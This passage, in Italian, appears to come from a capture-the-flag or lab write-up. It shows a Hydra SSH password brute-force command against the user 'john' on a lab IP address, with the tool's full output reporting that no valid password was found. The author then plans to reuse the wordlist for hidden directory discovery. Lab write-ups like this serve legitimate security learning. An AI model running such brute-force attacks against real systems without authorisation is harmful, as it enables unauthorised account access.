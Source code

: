 1) Una volta salvato la wordlist dentro un file iniziamo l'attacco:

┌──(kali㉿kali)-[~]
└─$ hydra -l john   -P /home/kali/dict.txt ssh://10.10.208.18           
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-20 11:53:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking ssh://10.10.208.18:22/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 57 to do in 00:01h, 15 active
[STATUS] 111.50 tries/min, 223 tries in 00:02h, 1 to do in 00:01h, 1 active
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-20 11:55:53


2) Purtroppo non ci porta a nulla, proverò a vedere se questa wordlist serve a scoprire directory nascoste che il file robots.txt non ci ha rivelato